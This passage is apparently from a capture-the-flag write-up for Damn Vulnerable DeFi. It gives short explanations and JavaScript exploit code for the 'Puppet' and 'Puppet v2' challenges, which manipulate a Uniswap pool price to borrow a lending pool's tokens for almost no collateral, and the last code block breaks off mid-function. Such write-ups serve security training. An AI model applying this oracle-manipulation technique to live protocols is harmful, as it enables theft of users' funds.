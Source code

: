 ```javascript

        await this.oracle.connect(wallet1).postPrice("DVNFT", INITIAL_NFT_PRICE)
        await this.oracle.connect(wallet2).postPrice("DVNFT", INITIAL_NFT_PRICE)
    });
```

## 8. Puppet

The part of the code that allows an exploit is the `_computeOraclePrice()` function.

In reality this solution (multiple transactions) wouldn't be very practical since arbitrage bots would likely pick up on our price manipulation and balance it out for profit before we'd be able to exploit it.

Resources:

- [Exploiting Uniswap: from reentrancy to actual profit - OpenZeppelin blog](https://blog.openzeppelin.com/exploiting-uniswap-from-reentrancy-to-actual-profit/)

- [Uniswap v1 source code](https://github.com/Uniswap/v1-contracts/blob/master/contracts/uniswap_exchange.vy#L202-L222)

Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).approve(
            this.uniswapExchange.address,
            ATTACKER_INITIAL_TOKEN_BALANCE
        )
        await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
            ATTACKER_INITIAL_TOKEN_BALANCE.sub(1),
            1,
            9999999999
        )
        const collateral = await this.lendingPool.calculateDepositRequired(
            this.token.balanceOf(this.lendingPool.address)
        )
        await this.lendingPool.connect(attacker).borrow(
            this.token.balanceOf(this.lendingPool.address),
            { value: collateral }
        )
    });
```

## 9. Puppet v2

The idea is exactly the same of  the puppet exploit. The only thing need to be done is to adapt the code to Uniswap V2.

Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).approve(
            this.uniswapRouter.address,
            ATTACKER_INITIAL_TOKEN_BALANCE
        )
        await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
            ATTACKER_INITIAL_TOKEN_BALANCE,
            0,
            [this.token.address, this.weth.address],
            attacker.address,
            9999999999
        )
```